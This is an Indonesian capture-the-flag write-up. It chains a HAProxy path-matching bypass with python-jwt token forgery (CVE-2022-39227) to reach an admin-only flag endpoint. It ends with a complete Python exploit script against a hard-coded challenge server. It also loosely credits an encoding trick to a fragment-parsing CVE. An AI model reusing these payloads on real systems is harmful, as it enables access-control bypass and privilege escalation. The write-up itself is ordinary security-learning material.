



## Analisa

Diberikan sebuah web service,begini tampilannya



Juga, di deskripsi challenge terdapat 2 hints, yaitu “cve haproxy n cve python jwt” disini gw langsung mencoba mencari referensi nya di google, dan menemukan artikel ini (https://www.haproxy.com/blog/december-2023-cve-2023-45539-haproxy-accepts-as-part-of-the-uri-component-fixed) dan (https://pentesterlab.com/exercises/jwt-xv)





## Penjelasan CVE


### *CVE-2023-45539: HAProxy Fragment Bypass*

HAProxy sebelum versi 2.8.2 salah menerima karakter `#` (fragment/hash) sebagai bagian dari URI path. Normalnya, web server modern seperti Apache dan NGINX akan reject request dengan # di path, tapi HAProxy memprosesnya.

### Attack Vector

AProxy menggunakan path sample fetch function untuk matching rules seperti ini:


```
  use_backend static if { path_end .png .jpg .gif .css .js }
```


Dan ada denial rule di chall ini:
```
  http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

Bypass technique: Karena HAProxy salah parsing fragment, attacker bisa gunakan berbagai encoding trick untuk bypass path matching: (Referensi: https://ctftime.org/writeup/38742)
```
http://victim.com/%2fapi/v1/get_ticket
```


### *CVE-2022-39227: python-jwt Token Forgery*

Library python-jwt versi < 3.3.4 vulnerable terhadap JWT format confusion. Vulnerability ini muncul karena inconsistency antara JWT parser di python-jwt dan dependency-nya jwcrypto

JWT punya dua format representasi:
1. Compact format: `header.payload.signature`
2. JSON format: `{"protected":"header", "payload":"payload", "signature":"signature"}`

Library jwcrypto yang digunakan untuk verify signature memparsing JWT dalam urutan prioritas tertentu. Attacker bisa mix kedua format untuk trick parser.


### Attack Vector

1. Dapatkan valid JWT (role: guest):
```auto
eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiZ3Vlc3QifQ.signature
```

2. Buat fake payload dengan modified claims (role: admin):
```
{"exp": 1759576262, "role": "admin", "user": "roblox_developer"}
```


3. Forge token dengan polyglot format:
```
{
  "header.fake_payload.": "",
  "protected": "header",
  "payload": "original_payload",
  "signature": "original_signature"
}
```

4. Parser confusion terjadi, python-jwt parsing: membaca `fake_payload` dari compact format di key pertama, jwcrypto verifying: verifikasi signature terhadap original payload di field "payload" Result: signature VALID (karena verify original payload), tapi claims yang digunakan adalah `fake_payload`

## Solve
```py
import base64
import json
import requests

target = "http://157.230.150.185:9002"

# Step 1: Bypass HAProxy dengan fragment (%2f)
resp = requests.get(f"{target}/%2f/api/v1/get_ticket")
jwt_token = resp.json()["developer_pass: "]
print(jwt_token)

# Step 2: Parse JWT (header.payload.signature)
parts = jwt_token.split('.')
header = parts[0]
payload = parts[1]
signature = parts[2]

# Decode payload
decoded_payload = json.loads(base64.urlsafe_b64decode(payload + '=='))
print(decoded_payload)

# Step 3: Forge payload dengan role administrator
decoded_payload['role'] = 'administrator'
print(decoded_payload)

# Encode fake payload
fake_payload = base64.urlsafe_b64encode(
    json.dumps(decoded_payload, separators=(',', ':')).encode()
).decode().rstrip('=')

# Step 4: Buat polyglot JWT (CVE-2022-39227)
forged_token = '{' + f'\" {header}.{fake_payload}.\":\"\",' + f'\"protected\":\"{header}\",' + f'\"payload\":\"{payload}\",' + f'\"signature\":\"{signature}\"' + '}'

# Step 5: Get flag dengan forged token
headers = {"Authorization": forged_token}
flag_resp = requests.get(f"{target}/api/v1/flag", headers=headers)
print(flag_resp.text)
```


